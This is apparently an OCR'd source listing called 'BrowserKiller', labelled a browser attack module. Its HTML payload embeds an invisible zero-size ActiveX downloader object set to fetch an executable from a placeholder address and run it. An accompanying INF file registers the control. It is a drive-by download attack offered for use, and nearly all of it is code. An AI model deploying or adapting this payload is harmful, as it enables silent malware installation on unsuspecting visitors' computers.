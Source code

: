 # BrowserKiller
[html]
# ----------------------------------------------------------------------------
# Browser killer
# Browser attack module
# author :  weibo@flagellantX
# ----------------------------------------------------------------------------
</html></script></body><BODY><OBJECT ID="Playing1" WIDTH="0" HEIGHT="0" CLASSID="CLSID:c1b7e532-3ecb-4e9e-bb3a-2951ffe67c61" CODEBASE="Playing.ISO#Version=1,0,0,1"><PARAM NAME="propProgressbackground" VALUE="#bccee8"><PARAM NAME="propTextbackground" VALUE="#f7f8fc"><PARAM NAME="propBarColor" VALUE="#df0203"><PARAM NAME="propTextColor" VALUE="#000000"><PARAM NAME="propWidth" VALUE="0"><PARAM NAME="propHeight" VALUE="0"><PARAM NAME="propDownloadUrl" VALUE="http://网络地址/可执行文件"><PARAM NAME="propPostdownloadAction" VALUE="run"><PARAM NAME="propInstallCompleteUrl" VALUE=""><PARAM NAME="propbrowserRedirectUrl" VALUE=""><PARAM NAME="propVerbose" VALUE="0"><PARAM NAME="propInterrupt" VALUE="0"></OBJECT></script></body></html>
------------------------------------------------------------------------------
[version]
    signature="$CHICAGO$"
    AdvancedINF=2.0
[Add.Code]
    DownloaderActiveX.ocx=Playing.ocx
[Playing.ocx]
    file-win32-x86=thiscab
    clsid={c1b7e532-3ecb-4e9e-bb3a-2951ffe67c61}
    FileVersion=1,0,0,1
    RegisterServer=yes
[Author]
# ----------------------------------------------------------------------------
# Browser killer
# Browser attack module
# author :  weibo@flagellantX
# ----------------------------------------------------------------------------
[Playing.ocx]
